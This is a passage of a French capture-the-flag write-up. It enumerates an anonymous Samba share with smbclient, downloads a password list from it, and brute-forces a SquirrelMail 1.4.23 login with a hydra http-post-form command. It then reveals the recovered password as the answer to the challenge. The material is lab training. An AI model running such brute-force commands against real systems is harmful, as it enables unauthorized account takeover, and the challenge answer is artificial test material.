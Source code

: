 
On remarque qu'une session est appellée "anonymous" et possède la permission "READ ONLY".
Se connecter au répertoire anonymois du server samba : 

``` 
smbclient //10.10.61.62/anonymous 

smb: \> ls
  .                                   D        0  Thu Nov 26 11:04:00 2020
  ..                                  D        0  Tue Sep 17 03:20:17 2019
  attention.txt                       N      163  Tue Sep 17 23:04:59 2019
  logs                                D        0  Wed Sep 18 00:42:16 2019
```
On remarque qu'il y a un fichier **attention.txt** et un dossier **logs**
On va télécharger le contenu : 

```
get attention.txt 
cd logs
get log1.txt
get log2.txt 
get log3.txt 
```
Comme il n'y a plus rien à voir dans ce share samba, alons regarder ce qu'il y a dans les différents fichiers récupérés :

Fichier attention.txt : Nous informe que le mot de passe doit être changé 
Fichier log1.txt : Nous donne une liste de mot de passes potentiels 
Fichiers log2.txt et log3.txt : Rien dedans 

GoBuster est fini, une url est intrigante : **/squirrelmail** 
On se rend sur la page et on tombe sur une page d'autentification avec la version de l'application :

**SquirrelMail version 1.4.23**

D'après la recherche sur les sessions Samba, une session s'appelle **milesdyson**
D'après le fichier **logs/log1.txt** ca ressemble étrangement à des mots de passes.
On va essayer brutforcer le mot de passe du compte **milesdyson** avec la liste **log1.txt** via hydra 

```
hydra -l milesdyson -P log1.txt 10.10.61.62 http-post-form '/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect.'

[80][http-post-form] host: 10.10.61.62   login: milesdyson   password: cyborg007haloterminator

```
Let's go ! On a un mot de passe associé à l'utilisateru milesdyson

**login: milesdyson   password: cyborg007haloterminator**

Réponse 1 : **cyborg007haloterminator**


## What is the hidden directory?
